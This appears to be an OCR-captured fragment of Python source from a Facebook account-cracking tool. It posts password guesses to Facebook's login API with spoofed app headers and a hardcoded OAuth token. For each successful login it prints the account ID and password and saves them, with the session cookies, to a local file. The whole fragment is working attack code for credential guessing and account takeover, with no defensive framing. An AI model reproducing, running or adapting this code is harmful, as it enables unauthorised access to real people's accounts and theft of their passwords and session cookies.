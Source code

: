             'X-FB-SIM-HNI':str(random.randint(2e4, 4e4)),
            'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
            'X-FB-Connection-Type':'WIFI',
            'X-Tigon-Is-Retry':'False',
            'x-fb-session-id':'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=62f8ce9f74b12f84c123cc23437a4a32',
            'x-fb-device-group':'5120',
            'X-FB-Friendly-Name':'ViewerReactionsMutation',
            'X-FB-Request-Analytics-Tags':'graphservice',
            'X-FB-HTTP-Engine':'Liger',
            'X-FB-Client-IP':'True',
            'X-FB-Server-Cluster':'True',
            'x-fb-connection-token':'62f8ce9f74b12f84c123cc23437a4a32'}
            url = 'https://b-graph.facebook.com/auth/login'
            po = requests.post(url,data=data,headers=head,allow_redirects=False).text
            q = json.loads(po)
            if 'access_token' in q:
                uid = str(q['uid'])
                coki = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                print(f'\r\r{G1}[EHC-OK] {uid} | {pas}')
                #print(f'\r\r{G1}[COOKIE]{A} {coki}')
                open('/sdcard/EHC-EMRAN-OK.txt','a').write(uid+'|'+pas+'|'+coki+'\n')
                ok.append(uid)
                break
            else:continue
        loop+=1
    except Exception as e:
        pass
          
menu()
#__________________[ END ]__________________#
